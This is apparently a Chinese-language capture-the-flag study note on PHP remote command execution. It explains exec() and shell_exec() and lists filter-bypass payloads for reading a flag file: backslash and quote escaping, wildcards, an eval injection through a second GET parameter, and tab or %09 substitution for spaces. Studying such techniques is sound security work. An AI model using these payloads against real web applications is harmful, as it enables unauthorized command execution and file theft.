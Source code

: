 下面是想到什么写什么

*   exec()函数

没有回显，接受两个参数，即：

exec(\$command, \$array)

第一个参数为命令，第二个参数为执行命令后的回显存放的数组

若直接打印返回值，**只会显示出第一个值**

*   shell_exec()函数

没有回显，接受一个参数。即：

shell_exec(\$command)

返回值是回显。

*   echo & print_r()

echo没有办法打印出数组的，若打印数组的话，会输出一个Array

## RCE姿势

### 过滤关键字

主要是针对例如flag被过滤又要执行flag.php类似的情况

通配符就不说了

可以用这种方式：`cat fla\g.php`

这种转义绕过的方式是Linux命令转义，php中的字符串没有转义，仍然是fla\g.php

以及`cat fla''g.php`，同上

### 通配符绕过

比如直接过滤flag等等。此处记录一下遇到的payload。

    //只过滤flag
    ?c=system("cat f*")

### 空格绕过

可以使用双重GET的方式绕过，当然post也可以。

    ?c=eval($_GET[1]);&1=system("ls"); //注意这里还有个eval

可以使用tab绕过，因为空格可以用tab代替。

    ?c=print_r(<code>tac\tf*</code>);

可以用%09代替，本质上是tab符号的url编码

    ?c=print_r(<code>tac%09f*</code>);

有时可以尝试%20代替，%20是空格的url编码，但过滤空格可能无法使用
